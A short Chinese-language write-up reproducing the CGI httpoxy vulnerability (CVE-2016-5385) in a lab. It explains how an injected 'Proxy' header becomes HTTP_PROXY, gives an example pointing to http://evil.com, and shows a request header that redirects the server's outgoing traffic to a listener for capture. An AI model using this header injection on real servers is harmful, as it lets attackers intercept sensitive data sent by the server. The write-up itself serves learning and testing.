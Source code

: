# CGI HTTPoxy漏洞

> 漏洞说明

httpoxy是cgi中的一个环境变量；而服务器和CGI程序之间通信，一般是通过进程的环境变量和管道。

根据 RFC 3875 规定，cgi（fastcgi）要将用户传入的所有 HTTP 头都加上 HTTP_前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的 HTTP_PROXY 值作为 HTTP 代理地址。于是，恶意用户通过提交 Proxy: http://evil.com 这样的 HTTP 头，将使用缺陷类库的网站的代理设置为 http://evil.com，进而窃取数据包中可能存在的敏感信息。



> 前提条件



> 利用工具



> 漏洞复现

搭建靶场环境，访问http://192.168.40.77:8080/index.php

![image-20221218201928216](../img/CGI HTTPoxy_CVE-2016-5385/image-20221218201928216.png)

请求包添加代理Proxy: socks5://192.168.40.1:7890/访问可以看到Origin已经变成代理地址

![image-20221218203703096](../img/CGI HTTPoxy_CVE-2016-5385/image-20221218203703096.png)

监听192.168.40.1的7890端口即可捕获请求数据包